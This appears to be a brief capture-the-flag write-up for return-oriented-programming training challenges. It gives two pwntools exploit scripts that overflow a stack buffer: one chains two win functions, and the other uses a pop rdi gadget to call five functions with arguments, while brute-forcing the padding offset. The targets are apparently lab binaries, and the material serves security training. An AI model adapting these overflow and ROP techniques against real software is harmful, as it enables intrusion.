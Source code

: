 ## Challenge 2

Execute 2 functions, trivial. 

```python
def main(): 
    elf = ELF(BINARY)
    win_1_addr = elf.symbols['win_stage_1']
    win_2_addr = elf.symbols['win_stage_2']

    for delta in range(-0x40, 0x40, 8):
        p = process(BINARY)

        buf = b'A' * (56 + delta) + p64(win_1_addr) + p64(win_2_addr)
        p.send(buf)
        time.sleep(0.1)
        data = p.recv()
        if b'pwn' in data:
            print(data)
```

## Challenge 3

Execute 5 functions, use a gadget for each of them to control their argument.

```python
def main(): 
    elf = ELF(BINARY)
    win_1_addr = elf.symbols['win_stage_1']
    win_2_addr = elf.symbols['win_stage_2']
    win_3_addr = elf.symbols['win_stage_3']
    win_4_addr = elf.symbols['win_stage_4']
    win_5_addr = elf.symbols['win_stage_5']

    rop = ROP(BINARY)
    pop_rdi = rop.rdi.address

    for delta in range(-0x40, 0x40, 8):
        p = process(BINARY)
        buf = b'A' * (104 + delta)
        buf += p64(pop_rdi) + p64(1)
        buf += p64(win_1_addr) 
        buf += p64(pop_rdi) + p64(2)
        buf += p64(win_2_addr) 
        buf += p64(pop_rdi) + p64(3)
        buf += p64(win_3_addr)
        buf += p64(pop_rdi) + p64(4)
        buf += p64(win_4_addr)
        buf += p64(pop_rdi) + p64(5)
        buf += p64(win_5_addr)

        p.send(buf)
        time.sleep(0.1)
        data = p.recv()
        if b'pwn' in data:
            print(data)
```
